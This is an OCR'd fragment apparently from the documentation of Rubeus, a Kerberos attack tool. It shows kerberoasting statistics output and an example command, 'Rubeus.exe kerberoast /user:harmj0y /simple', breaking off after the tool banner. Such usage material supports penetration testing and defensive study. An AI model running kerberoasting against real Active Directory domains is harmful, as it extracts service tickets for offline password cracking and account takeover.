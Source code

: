  [*] Total kerberoastable users : 4


 ----------------------------------------------------------------------
 | Supported Encryption Type | Count |
 ----------------------------------------------------------------------
 | RC4_HMAC_DEFAULT | 1 |
 | RC4_HMAC | 1 |
 | AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 1 |
 | RC4_HMAC, AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 1 |
 ----------------------------------------------------------------------

 ----------------------------------
 | Password Last Set Year | Count |
 ----------------------------------
 | 2019 | 4 |
 ----------------------------------


Kerberoasting a specific user, with simplified hash output:

 C:\Rubeus>Rubeus.exe kerberoast /user:harmj0y /simple

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.5.0


 [*] Action: Kerberoasting

